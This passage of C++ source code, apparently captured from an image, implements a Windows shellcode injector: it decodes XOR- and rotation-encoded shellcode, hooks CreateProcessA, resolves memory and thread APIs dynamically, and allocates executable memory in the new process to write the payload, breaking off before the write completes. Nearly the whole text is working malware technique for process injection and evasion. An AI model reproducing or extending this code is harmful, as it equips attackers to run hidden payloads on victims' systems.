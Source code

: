 ```cpp
    for (size_t i = 0; i < length; i++) {
        shellcode[i] = rotr8(shellcode[i], 3);  // First reverse the rotation
        shellcode[i] ^= key;  // Then XOR with the same key
    }
}

// Function typedef for CreateProcessA
typedef BOOL(WINAPI* CreateProcessA_t)(
    LPCSTR, LPSTR, LPSECURITY_ATTRIBUTES, LPSECURITY_ATTRIBUTES,
    BOOL, DWORD, LPVOID, LPCSTR, LPSTARTUPINFOA, LPPROCESS_INFORMATION);
CreateProcessA_t OriginalCreateProcessA = CreateProcessA;

BOOL WINAPI HookedCreateProcessA(
    LPCSTR lpApplicationName,
    LPSTR lpCommandLine,
    LPSECURITY_ATTRIBUTES lpProcessAttributes,
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    BOOL bInheritHandles,
    DWORD dwCreationFlags,
    LPVOID lpEnvironment,
    LPCSTR lpCurrentDirectory,
    LPSTARTUPINFOA lpStartupInfo,
    LPPROCESS_INFORMATION lpProcessInformation)
{
    printf("Original CreateProcessA called. Injecting shellcode...\n");

    HMODULE hKernel32 = LoadLibraryA("kernel32.dll");
    VirtualAllocEx_t pVirtualAllocEx = (VirtualAllocEx_t)GetProcAddress(hKernel32, "VirtualAllocEx");
    WriteProcessMemory_t pWriteProcessMemory = (WriteProcessMemory_t)GetProcAddress(hKernel32, "WriteProcessMemory");
    SetThreadContext_t pSetThreadContext = (SetThreadContext_t)GetProcAddress(hKernel32, "SetThreadContext");
    GetThreadContext_t pGetThreadContext = (GetThreadContext_t)GetProcAddress(hKernel32, "GetThreadContext");
    ResumeThread_t pResumeThread = (ResumeThread_t)GetProcAddress(hKernel32, "ResumeThread");

    BOOL result = OriginalCreateProcessA(lpApplicationName, lpCommandLine, lpProcessAttributes,
        lpThreadAttributes, bInheritHandles, dwCreationFlags,
        lpEnvironment, lpCurrentDirectory, lpStartupInfo, lpProcessInformation);

    if (!result) {
        printf("CreateProcessA failed. Error: %d\n", GetLastError());
        return result;
    }

    printf("Process created successfully. Allocating memory in target process...\n");

    // Allocate memory in the target process
    LPVOID remoteMemory = pVirtualAllocEx(lpProcessInformation->hProcess, NULL, payload_size,
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (remoteMemory == NULL) {
        printf("Memory allocation failed in the target process. Error: %d\n", GetLastError());
        return result;
    }
    printf("Memory allocated successfully at %p. Decoding shellcode...\n", remoteMemory);

    // Decode the XOR encoded shellcode
    decode_shellcode(encoded_shellcode, payload_size, xor_key);

    printf("Shellcode decoded. Writing to remote process memory...\n");

```